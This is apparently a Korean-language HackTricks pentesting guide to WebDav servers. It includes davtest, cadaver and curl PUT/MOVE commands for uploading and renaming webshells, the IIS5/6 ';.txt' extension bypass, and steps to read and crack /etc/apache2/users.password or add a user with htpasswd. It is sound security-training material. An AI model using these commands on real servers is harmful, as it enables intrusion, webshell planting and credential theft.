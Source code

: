 # WebDav

{{#include ../../banners/hacktricks-training.md}}

**WebDav**가 활성화된 **HTTP 서버**를 다룰 때, 올바른 **자격 증명**이 있다면 **파일을 조작**할 수 있습니다. 이는 일반적으로 **HTTP 기본 인증**을 통해 확인됩니다. 이러한 서버에 대한 제어를 얻는 것은 종종 **웹쉘의 업로드 및 실행**을 포함합니다.

WebDav 서버에 접근하려면 일반적으로 **유효한 자격 증명**이 필요하며, [**WebDav 브루트포스**](../../generic-hacking/brute-force.md#http-basic-auth)는 이를 획득하는 일반적인 방법입니다.

파일 업로드에 대한 제한을 극복하기 위해, 특히 서버 측 스크립트 실행을 방지하는 제한이 있는 경우, 다음과 같은 방법을 사용할 수 있습니다:

- **제한이 없으면** **실행 가능한 확장자**를 가진 파일을 **직접 업로드**합니다.
- 업로드된 비실행 파일(예: .txt)의 이름을 실행 가능한 확장자로 **변경**합니다.
- 업로드된 비실행 파일을 **복사**하고, 그 확장자를 실행 가능한 것으로 변경합니다.

## DavTest

**Davtest**는 **다양한 확장자를 가진 여러 파일을 업로드**하고 **확장자가 실행되는지 확인**하려고 합니다:
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../images/image (851).png>)

이것은 **.txt** 및 **.html 확장자가 실행되고 있다는 의미가 아닙니다**. 이는 웹을 통해 **이 파일에 접근할 수 있다는 의미입니다**.

## Cadaver

이 도구를 사용하여 **WebDav** 서버에 연결하고 **수동으로** **업로드**, **이동** 또는 **삭제**와 같은 작업을 수행할 수 있습니다.
```
cadaver <IP>
```
## PUT 요청
```
curl -T 'shell.txt' 'http://$ip'
```
## MOVE 요청
```bash
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
## IIS5/6 WebDav 취약점

이 취약점은 매우 흥미롭습니다. **WebDav**는 **.asp** 확장자를 가진 파일을 **업로드**하거나 **이름을 변경**하는 것을 **허용하지 않습니다**. 그러나 이름 끝에 **";.txt"**를 추가하면 파일이 .asp 파일처럼 **실행**됩니다 (대신 **".txt"** 대신 **".html"**을 사용할 수도 있지만 **";"**를 잊지 마세요).

그런 다음 당신은 자신의 쉘을 ".**txt" 파일**로 **업로드**하고 **".asp;.txt"** 파일로 **복사/이동**할 수 있습니다. 웹 서버를 통해 해당 파일에 접근하면 **실행**됩니다 (cadaver는 이동 작업이 작동하지 않았다고 말할 것이지만, 실제로는 작동했습니다).

![](<../../images/image (1092).png>)

## 자격 증명 후

Webdav가 Apache 서버를 사용하고 있다면 Apache에 구성된 사이트를 확인해야 합니다. 일반적으로:\
\&#xNAN;_**/etc/apache2/sites-enabled/000-default**_

그 안에는 다음과 같은 내용이 있을 수 있습니다:
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
보시다시피 **webdav** 서버에 대한 유효한 **credentials**가 포함된 파일이 있습니다:
```
/etc/apache2/users.password
```
이러한 유형의 파일 안에는 **사용자 이름**과 **비밀번호의 해시**가 있습니다. 이것들은 웹다브 서버가 사용자를 인증하는 데 사용하는 자격 증명입니다.

당신은 그것들을 **크랙**하거나, 어떤 이유로든 **웹다브** 서버에 **접속**하고 싶다면 **더 추가**할 수 있습니다:
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
새로운 자격 증명이 작동하는지 확인하려면 다음을 수행할 수 있습니다:
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## References

- [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{{#include ../../banners/hacktricks-training.md}}
